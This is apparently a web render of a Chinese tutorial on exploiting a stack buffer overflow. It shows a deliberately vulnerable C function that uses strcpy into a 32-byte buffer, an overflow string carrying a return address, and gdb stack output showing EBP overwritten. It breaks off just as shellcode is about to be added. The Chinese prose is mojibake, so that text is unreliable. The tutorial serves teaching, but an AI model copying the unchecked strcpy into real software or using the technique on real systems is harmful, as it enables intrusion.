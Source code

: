 void Overflow(char temp[])
{
    char buffer[32];
    strcpy(buffer, temp);
    printf(&quot;%s\n&quot;, buffer);
}

int main()
{
    char temp[64] = &quot;AAAA&quot;;
    Overflow(temp);
    return 0;
}
</code></pre><p>杩愯鍒版嫹璐濇寚浠わ紝浠旂粏瑙傚療EBP鍜岀涓€涓弬鏁�</p>
<p><img src="Image/16.png" alt=""></p>
<p><code>0xbfffeed0</code>鏄洰鏍囧瓧绗︿覆鍦ㄧ紦鍐插尯鐨勮捣濮嬩綅缃紝璺濈EBP鏈�44瀛楄妭鐨勯暱搴�</p>
<p>淇敼杈撳叆鐨勫瓧绗︿覆</p>
<pre><code>char temp[64] = &quot;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB\xd0\xee\xff\xbf&quot;;
</code></pre><p>鎷疯礉鍚庤瀵熸爤鐨勬儏鍐碉紝鍙互鐪嬪埌EBP宸茬粡琚�<code>BBBB</code>瑕嗙洊</p>
<pre><code>gdb-peda$ stack 30
0000| 0xbfffeec0 --&gt; 0xbfffeed0 (&#39;A&#39; &lt;repeats 40 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0004| 0xbfffeec4 --&gt; 0xbfffef10 (&#39;A&#39; &lt;repeats 40 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0008| 0xbfffeec8 --&gt; 0xb7fff918 --&gt; 0x0 
0012| 0xbfffeecc --&gt; 0xf0b2ff 
0016| 0xbfffeed0 (&#39;A&#39; &lt;repeats 40 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0020| 0xbfffeed4 (&#39;A&#39; &lt;repeats 36 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0024| 0xbfffeed8 (&#39;A&#39; &lt;repeats 32 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0028| 0xbfffeedc (&#39;A&#39; &lt;repeats 28 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0032| 0xbfffeee0 (&#39;A&#39; &lt;repeats 24 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0036| 0xbfffeee4 (&#39;A&#39; &lt;repeats 20 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0040| 0xbfffeee8 (&#39;A&#39; &lt;repeats 16 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0044| 0xbfffeeec (&#39;A&#39; &lt;repeats 12 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0048| 0xbfffeef0 (&quot;AAAAAAAABBBB\320\356\377\277&quot;)
0052| 0xbfffeef4 (&quot;AAAABBBB\320\356\377\277&quot;)
0056| 0xbfffeef8 (&quot;BBBB\320\356\377\277&quot;)
0060| 0xbfffeefc --&gt; 0xbfffeed0 (&#39;A&#39; &lt;repeats 40 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0064| 0xbfffef00 (0xbfffef00)
0068| 0xbfffef04 --&gt; 0xbfffefa4 --&gt; 0xb5e79f4a 
0072| 0xbfffef08 --&gt; 0xb7fbb000 --&gt; 0x1b1db0 
0076| 0xbfffef0c --&gt; 0xfd57 
0080| 0xbfffef10 (&#39;A&#39; &lt;repeats 40 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0084| 0xbfffef14 (&#39;A&#39; &lt;repeats 36 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0088| 0xbfffef18 (&#39;A&#39; &lt;repeats 32 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0092| 0xbfffef1c (&#39;A&#39; &lt;repeats 28 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0096| 0xbfffef20 (&#39;A&#39; &lt;repeats 24 times&gt;, &quot;BBBB\320\356\377\277&quot;)
</code></pre><p>缂撳啿鍖哄凡缁忓紑鐨勮冻澶熷ぇ浜嗭紝鎴戜滑濉厖涓€娈垫湁鏁堢殑鎸囦护锛岃繖娈典唬鐮佷粠钂哥背閭ｉ噷鎶勬潵鐨勶紝閮藉樊涓嶅锛屼笉瑕佹湁<code>bad char</code>灏辫</p>
<pre><code>#include &lt;stdio.h&gt;
#include &lt;string.h&gt;
